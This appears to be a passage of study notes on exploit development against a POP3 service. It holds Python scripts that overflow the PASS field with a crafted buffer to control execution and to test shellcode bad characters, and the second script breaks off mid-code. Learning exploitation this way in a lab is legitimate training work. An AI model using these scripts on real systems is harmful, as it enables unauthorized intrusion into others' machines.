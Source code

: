 350-450 bytes


```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = "A" * 2606 + "B" * 4 + "C" * (3500-2606-4)


try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

This will increase the space we can use. (430 bytes)

Metasplot has a shellcode generator

### Bad Characters

There may be certain characters that are considered bad and shouldn't be used in shellcode.

* NULL byte opcode - hex 00
  * also used to terminate a string copy operation

* CR return character - hex 0D

* LF line feed - hex 0A

Send 00 - FF to test for bad Characters

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

#buffer = "A" * 2606 + "B" * 4 + "C" * (3500-2606-4)
buffer = "A" * 2606 + "B" * 4 + badchars

try:
  print "\nSending evil buffer..."
```